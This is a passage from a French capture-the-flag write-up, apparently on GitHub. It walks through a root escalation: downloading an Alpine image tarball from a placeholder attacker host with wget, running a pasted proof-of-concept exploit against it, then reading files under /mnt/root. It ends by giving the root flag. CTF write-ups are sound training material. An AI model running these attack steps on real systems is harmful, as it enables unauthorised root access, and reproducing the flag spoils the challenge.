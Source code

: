`wget http://ATTAQUANT_IP:8000/alpine-v3.22-x86_64-20250925_1026.tar.gz .`

`nano exploit.py` *Et je colle le POC*

`chmod +x exploit.py`

`./exploit.py -f alpine-v3.22-x86_64-20250925_1026.tar.gz`

Et voilaaa

<img width="943" height="346" alt="image" src="https://github.com/user-attachments/assets/19cdb25a-f622-4190-a936-00711729b094" />

Faut pas se précipiter et être sur d'aller à `/mnt/root` pour voir tout les fichiers :)

<img width="1782" height="174" alt="image" src="https://github.com/user-attachments/assets/8f3ad874-0e05-467b-a7c7-01c919561d3c" />

*What is the root flag?* : **2e337b8c9f3aff0c2b3e8d4e6a7c88fc**
